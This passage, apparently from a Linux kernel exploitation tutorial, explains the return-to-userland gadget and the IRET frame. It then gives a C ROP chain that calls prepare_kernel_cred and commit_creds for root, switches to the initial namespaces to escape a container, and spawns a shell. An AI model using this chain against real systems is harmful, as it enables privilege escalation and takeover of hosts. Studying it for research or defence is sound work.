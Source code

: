 ```
0xffffffff81e01004 <+20>:    pop    rdx
0xffffffff81e01005 <+21>:    pop    rsi
0xffffffff81e01006 <+22>:    mov    rdi,rsp
0xffffffff81e01009 <+25>:    mov    rsp,QWORD PTR gs:0x6004
0xffffffff81e01012 <+34>:    push   QWORD PTR [rdi+0x30]
0xffffffff81e01015 <+37>:    push   QWORD PTR [rdi+0x28]
0xffffffff81e01018 <+40>:    push   QWORD PTR [rdi+0x20]
0xffffffff81e0101b <+43>:    push   QWORD PTR [rdi+0x18]
0xffffffff81e0101e <+46>:    push   QWORD PTR [rdi+0x10]
0xffffffff81e01021 <+49>:    push   QWORD PTR [rdi]
...
0xffffffff81e01069 <+121>:   pop    rax
0xffffffff81e0106a <+122>:   pop    rdi
0xffffffff81e0106b <+123>:   swapgs
...
```
Looking at the generated assembly we see that we pop a lot of register at the start. We wouldn't want to pass that many dummy values in the ROP chain so we are going to actually call the function at offset `<+22>` where the first move function starts. However, we will still have to pass two dummy values for the pop instructions at `<+122>` and `<+123>`.

The order of the registers that we pass to the IRET frame should be `RIP CS RFLAGS SP SS`

So in total, this part of the ROP chain would take us:
+ 1 word to pass the address of `swapgs_restore_regs_and_return_to_usermode+22`
+ 2 dummy words for `rax` and `rdi`
+ 5 words for the IRET frame.

In total 8 words.

#### Summarizing the ROP chain <a name="summ"></a>
The total size of the ROP chain in my case is 23 words. The size will differ between builds due to gadget differences, etc.

```c
int offset = 0;
// clearing interrupts
payload[offset++] = kbase + cli_ret;

// preparing credentials
payload[offset++] = kbase + pop_rdi_ret; 
payload[offset++] = 0x0; // first argument of prepare_kernel_cred
payload[offset++] = kbase + prepare_kernel_cred;

// commiting credentials
payload[offset++] = kbase + mov_rdi_rax_pop_rbx_ret;
payload[offset++] = 0x0; // dummy rbx
payload[offset++] = kbase + commit_creds;

// switching namespaces
payload[offset++] = kbase + pop_rdi_ret;
payload[offset++] = process_id;
payload[offset++] = kbase + find_task_by_vpid;
payload[offset++] = kbase + mov_rdi_rax_pop_rbx_ret;
payload[offset++] = 0x0; // dummy rbx
payload[offset++]	= kbase + pop_rsi_ret;
payload[offset++] = kbase + init_nsproxy;
payload[offset++] = kbase + switch_task_namespaces;

// returning to userland
payload[offset++] = kbase + swapgs_restore_regs_and_return_to_usermode;
payload[offset++] = 0x0; // dummy rax
payload[offset++] = 0x0; // dummy rdi
payload[offset++] = (unsigned long)spawnShell;
payload[offset++] = user_cs;
```
